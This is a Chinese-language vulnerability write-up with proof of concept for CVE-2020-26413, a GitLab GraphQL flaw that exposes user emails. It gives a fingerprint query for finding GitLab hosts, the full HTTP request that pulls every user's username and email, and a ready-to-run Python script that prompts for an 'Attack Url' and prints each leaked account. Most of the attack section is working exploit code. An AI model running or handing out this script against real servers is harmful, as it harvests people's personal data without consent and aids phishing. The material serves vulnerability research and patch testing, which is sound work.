

# GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

```
GitLab 13.4 - 13.6.2
```

## 网络测绘

```
title="GitLab"
```

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告

https://gitlab.com/gitlab-org/gitlab/-/issues/244275


意思为当使用构造的语句在接口查询时会返回邮箱信息，如图


访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer


Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞


查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱


发包调用了 **/api/graphql** 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```


成功返回数据，造成 Gitlab的用户邮箱信息泄露

## 漏洞POC

```python
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: GitLab 13.4 - 13.6.2                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/graphql"
    user_number = 0
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json",
    }
    try:
        data = """
        {"query":"{\\nusers {\\nedges {\\n  node {\\n    username\\n    email\\n    avatarUrl\\n    status {\\n      emoji\\n      message\\n      messageHtml\\n     }\\n    }\\n   }\\n  }\\n }","variables":null,"operationName":null}
        """
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data ,verify=False, timeout=5)
        if "email" in response.text and "username" in response.text and "@" in response.text and response.status_code == 200:
            print('\033[32m[o] 目标{}存在漏洞, 泄露用户邮箱数据....... \033[0m'.format(target_url))
            for i in range(0,999):
                try:
                    username = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["username"]
                    email = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["email"]
                    user_number = user_number + 1
                    print('\033[34m[o] 用户名:{} 邮箱:{} \033[0m'.format(username, email))
                except:
                    print("\033[32m[o] 共泄露{}名用户邮箱账号 \033[0m".format(user_number))
                    sys.exit(0)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```





## 